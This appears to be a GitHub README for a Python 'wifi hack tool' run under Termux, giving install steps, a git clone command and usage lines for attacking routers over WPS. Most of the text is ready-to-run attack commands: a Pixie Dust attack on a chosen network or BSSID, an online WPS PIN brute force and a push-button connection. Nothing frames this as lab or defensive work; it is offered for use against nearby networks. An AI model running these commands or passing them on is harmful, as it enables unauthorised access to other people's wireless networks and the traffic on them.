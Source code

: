 <!--- mark down --->
---
# wifi hack tool all run to rejaul.py
---

``` pkg install -y root-repo ```

``` pkg install -y git tsu python wpa-supplicant pixiewps iw ```

## github link:-

``` git clone https://github.com/princeicon2712/rejaul2712.git ```

``` $ cd rejaul2712 ```

``` $ chmod +x * ```

``` $ python rejaul.py -h ```

## plz' go to HOME

    Example : sudo python rejaul2712/rejaul.py -i wlan0 -K


# Note:

## First turn off your Wifi.

### Show avaliable networks and start Pixie Dust attack on a specified network.

``` sudo python rejaul.py -i wlan0 -K ```

### Start Pixie Dust attack on a specified BSSID: 

``` sudo python rejaul.py -i wlan0 -b 00:91:4C:C3:AC:28 -K ```

### Launch online WPS bruteforce with the specified first half of the PIN:

``` sudo python rejaul.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234 ```

## wps router push button:

``` sudo python rejaul1.py -i wlan0 --pbc ```

### Troubleshooting

### "Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.

<!--[profile](./rejaul.jpg)-->
<img src="rejaul.jpg" width="600"/>
